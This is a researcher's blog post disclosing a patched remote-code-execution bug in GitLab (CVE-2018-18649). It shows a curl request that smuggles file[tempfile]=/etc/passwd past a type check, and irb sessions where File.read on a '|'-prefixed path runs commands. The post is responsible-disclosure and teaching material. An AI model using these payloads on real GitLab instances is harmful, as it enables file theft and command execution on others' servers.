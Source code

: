 ```yaml
---
layout: post
title:  "Second bite on GitLab, and some interesting Ruby functions/features"
date:   2018-12-12 15:34:11 +0800
categories: jekyll update
---
```


# Brief
It's been a while since I wrote something in this blog last time. I just posted
something about several bugs I found several months ago in GitHub Pages and
GitHub Enterprise. Go check them out if you are interested in some more examples
of incorrect path sanitizing and symbolic links in real world softwares!

But today I'm not going to talk about more of those. I'm going introduce some
recent findings about Ruby and how did a find an RCE bug in GitLab.
([CVE-2018-18649](https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/))

# Ruby and GitLab
I wrote Ruby a lot when I was still in university. I used Ruby almost everywhere
I could use and even once submitted an assignment of my Operating System course
about threads and processes. However, after I didn't have much time to continue
on the cool stuff with Ruby and focused on something else. :(

Recently, the experiences during the code auditing of GitLab, GitHub and several
other cool Ruby projects recalls me the best days of learning Ruby and feels me
like I'm designing the software and refining the code snippets with the developers.

As many people say, Ruby is an extremely flexible language and this flexibility
brings us elegant implementations, the freedom of creating DSL and etc. However
the flexibility also brings unnoticeable bugs. Here I'm going to show some code
snippets existed in GitLab.

## Duck Typing

> If it walks like a duck, swims like a duck, and quacks like a duck, then it probably is a duck.

GitLab uses [Grape](https://github.com/ruby-grape/grape) to create their APIs,
for example, the following API is used to upload attachments to the wiki of a
project.

``` ruby
        params do
          requires :file, type: File, desc: 'The attachment file to be uploaded'
          optional :branch, type: String, desc: 'The name of the branch'
        end
        post ":id/wikis/attachments", requirements: API::PROJECT_ENDPOINT_REQUIREMENTS do
          authorize! :create_wiki, user_project

          result = ::Wikis::CreateAttachmentService.new(user_project,
                                                        current_user,
                                                        commit_params(declared_params(include_missing: false))).execute
        ...
        end
```

Normally, Rack intercepts file uploading requests and sets `params[key][:tempfile]`
and `params[key][:filename]` to the temporary path of the uploaded file and the
original filename. So GitLab reads the content of the temp file and saves it
afterwards.

``` ruby
        def commit_params(attrs)
          {
            file_name: attrs[:file][:filename],
            file_content: File.read(attrs[:file][:tempfile]),
            branch_name: attrs[:branch]
          }
        end
```

At the same time, grape has a simple validation for `type: File`:

``` ruby
        def value_coerced?(value)
          # Rack::Request creates a Hash with filename,
          # content type and an IO object. Do a bit of basic
          # duck-typing.
          value.is_a?(::Hash) && value.key?(:tempfile)
        end
```

Well, it's not really duck-typing here. But the comments of the developer
reminds me this and it's surely thinking about duck-typing when it was
implementing this function.

Unfortunately, only duck quacking is not enough. A key named `:tempfile` exists
in the `params[:file]` hash doesn't really mean `params[:file]` is really a
uploaded file as expected.

Sending a simple POST request, we can easily smuggle our duck-like bird to pass this
duck typing check by setting `file[tempfile]` in the form data.

``` shell
curl -d "file[tempfile]=/etc/passwd&file[filename]=123" http://host:port
```

So, our bird can pass the inspection and tell us anything within a GitLab instance.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_1](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_1.png)

## Inheritance
Inheritance is not a Ruby only feature, inheritance exists in almost every OOP
language. It is a very helpful for designing softwares. However it also brings
some security risks.

In Ruby, there's a function `Kernel#open`

``` text
open(path [, mode [, perm]] [, opt]) → io or nil
...
If path starts with a pipe character ("|"), a subprocess is created, connected to the caller by a pair of pipes. The returned IO object may be used to write to the standard input and read from the standard output of this subprocess.
```
Which means, this function could be used to spawn sub-processes as long as the
first char of `path` is the pipe symbol.

``` text
irb(main):001:0> Kernel.open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
irb(main):002:0> open('|id').read
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

And, there are also some other functions having similar behavior, `IO::read`
for example:

``` text
read(name, [length [, offset]] [, opt] ) → string
Opens the file, optionally seeks to the given offset, then returns length bytes (defaulting to the rest of the file). read ensures the file is closed before returning.

If name starts with a pipe character ("|"), a subprocess is created in the same way as Kernel#open, and its output is returned.
```

Which means:

``` text
irb(main):003:0> path = '|id'
=> "|id"
irb(main):004:0> IO.read path
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

Well, so what's the business with inheritance here? A very very important point
of inheritance is that, the public methods of a parent class is inherited by a
child class, we can directly use those inherited methods in child classes as long
as we didn't override them. In Ruby, `File` is a child class of `IO`

``` text
irb(main):005:0> File.ancestors
=> [File, IO, File::Constants, Enumerable, Object, Kernel, BasicObject]
```

So,

``` text
irb(main):006:0> path = '|id'
=> "|id"
irb(main):007:0> File.read path
(irb):7: warning: IO.read called on File to invoke external command
=> "uid=0(root) gid=0(root) groups=0(root)\n"
```

easy huh? Till now, the arbitrary file read bug can be directly used to execute
system commands remotely.

![2018-12-12-CVE-2018-18649-Gitlab-RCE_2](/assets/2018-12-12-CVE-2018-18649-Gitlab-RCE_2.png)

# Some thoughts

I was quite shocked when I first discovered this `File.read` surprise. No matter
how to explain, I still can't accept the fact that calling `File.read` method on
a `|` started string spawns a sub-process instead of opening a file with that
name.

The fact is, not only method `read`:

``` text
pry(main)> (File.methods - File.methods(false)) & IO.methods(false)
=> [:console,
 :read,
 :sysopen,
 :for_fd,
 :popen,
 :foreach,
 :binread,
 :new,
 :binwrite,
 :write,
 :copy_stream,
 :select,
 :pipe,
 :open,
 :try_convert,
 :readlines]
```

All of these functions are inherited by `File` directly from `IO`, and some of
them have similar behavior with `File.read`.

According to the warning message printed in irb, I believe that Ruby-lang
developers already know this and are trying to rise notice of the users. It's a
good signal but I think it might be better to totally avoid this kind of
unexpected behavior from the language implementation layer, such as override
them in `File`.

# Timeline
[GitLab's bug bounty program](https://hackerone.com/gitlab) is very responsive
and regularly updated to keep reporters in the loop.

+ Oct 24th, Reported to GitLab
+ Oct 29th, Patch released https://about.gitlab.com/2018/10/29/security-release-gitlab-11-dot-4-dot-3-released/
+ Oct 29th, $10000 bounty was rewarded for this report
